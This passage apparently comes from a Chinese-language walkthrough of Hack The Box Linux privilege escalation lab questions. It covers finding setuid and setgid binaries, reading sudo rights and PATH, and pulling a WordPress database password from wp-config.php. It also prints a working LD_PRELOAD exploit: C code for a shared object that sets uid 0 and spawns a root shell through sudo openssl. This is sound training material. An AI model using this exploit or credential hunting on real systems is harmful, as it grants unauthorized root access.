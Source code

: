 ### Special Permissions

1. Find a file with the setuid bit set that was not shown in the section command output (full path to the binary).
   利用命令`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`一一对比
2. Find a file with the setgid bit set that was not shown in the section command output (full path to the binary).
   利用命令`find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`一一对比

### Sudo Rights Abuse

1. What command can the htb-student user run as root?
   输入命令`sudo -l`查看

### Path Abuse

1. Review the PATH of the htb-student user. What non-default directory is path of the user's PATH?
   输入命令`echo $PATH`查看

### Credential Hunting

1. Find the WordPress database password.
   wordpress的数据库连接配置文件是`wp-config.php`，进入网站目录即可看到
   ![image-20220827125526036](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827125526036.png)

### Shared Libraries

1. Escalate privileges using LD_PRELOAD technique. Submit the contents of the flag.txt file in the /root/ld_preload directory.
   在`sudo -l`中可以看到可有执行`openssl`同时存在`env_keep+=LD_PRELOAD`
   利用脚本

   ```c
   #include <stdio.h>
   #include <sys/types.h>
   #include <stdlib.h>
   
   void _init() {
   unsetenv("LD_PRELOAD");
   setgid(0);
   setuid(0);
   system("/bin/bash");
   }
   ```

   同时编译后，执行`sudo LD_PRELOAD=/tmp/sudo.so /usr/bin/openssl`即可
   ![image-20220827131831013](https://raw.githubusercontent.com/lant34m/pic/main/image-20220827131831013.png)

### Shared Object Hijacking

1. Follow the examples in this section to escalate privileges, recreate all examples (don't just run the payroll binary). Practice using ldd and readelf. Submit the version of glibc (i.e. 2.30) in use to move on to the next section.
